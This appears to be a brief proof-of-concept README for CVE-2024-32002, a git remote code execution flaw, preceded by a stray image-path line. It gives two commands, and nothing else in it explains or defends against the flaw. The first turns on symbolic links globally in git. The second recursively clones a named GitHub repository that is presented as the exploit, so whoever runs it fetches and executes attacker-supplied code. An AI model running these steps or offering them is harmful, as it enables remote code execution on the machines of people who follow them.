 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like this:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```
